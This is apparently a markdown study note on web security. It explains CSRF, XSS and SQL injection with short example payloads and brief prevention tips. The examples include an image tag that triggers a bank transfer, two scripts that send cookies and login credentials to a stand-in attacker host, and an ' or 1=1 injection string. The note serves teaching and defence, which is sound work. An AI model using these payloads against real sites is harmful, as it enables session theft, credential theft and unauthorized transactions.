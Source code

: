 - [Security](#security)
  - [CSRF(Cross Site Reuest Forgery)](#csrfcross-site-reuest-forgery)
    - [Volubility](#volubility)
      - [example (transfer money)](#example-transfer-money)
    - [How to prevent](#how-to-prevent)
      - [token](#token)
      - [http header Referer](#http-header-referer)
  - [XSS(Cross Site Scripting)](#xsscross-site-scripting)
    - [Volubility](#volubility-1)
      - [example 1(get cookie)](#example-1get-cookie)
      - [example 2(get login info)](#example-2get-login-info)
    - [How to prevent](#how-to-prevent-1)
      - [Input: sanitize all user input](#input-sanitize-all-user-input)
      - [Output: escape before output](#output-escape-before-output)
  - [SQL Injection](#sql-injection)
    - [example](#example)
    - [How to prevent](#how-to-prevent-2)

## Security

### CSRF(Cross Site Reuest Forgery)

#### Volubility
 - the attacker site pretend the real site request.

##### example (transfer money)

```html
<img src = “http://www.bank.com/transfer.do?toAct=123456&money=10000>
```

#### How to prevent
##### token
- laravel @csrf

##### http header Referer

### XSS(Cross Site Scripting)

#### Volubility

##### example 1(get cookie)
```html
<script>location.replace("http://www.attackpage.com/record.asp?secret="+document.cookie)</script>
```

##### example 2(get login info)
```html
<script>
  function hack(){
  　　location.replace("http://www.attackpage.com/record.asp?username="+document.forms[0].user.value + "password=" + document.forms[0].pass.value);
  }
</script>
<form>
  <h1>Login</h1>
　<p>Username:</p>
　<input type=”text” id=”user”name=”user” />
　<p>passworlg:</p>
　<input type=”password” name =“pass” />
　<input type=”submit”name=”login” value=”signin” onclick=”hack()” />
</form>

```


#### How to prevent

##### Input: sanitize all user input
- [node package](https://www.npmjs.com/package/sanitize-html)

##### Output: escape before output

normal output escape automatically, only needed data use dangerous directive.

- react - dangerouslySetInnerHTML
- vue - v-html


### SQL Injection

#### example

- user select sql

```sql
　　SELECT * FROM  users  WHERE login = 'victor' AND password = '123
```

- user find logic

```js
const formusr = "' or 1=1"
const formpwd = "anything"
const sql = "SELECT * FROM users WHERE login = '" + formusr + "' AND password = '" + formpwd + "'";
```

- final excuting sql
```sql
　　SELECT * FROM users WHERE username = ' ' or 1=1  AND password = 'anything'
```

#### How to prevent

- escape any sql before execution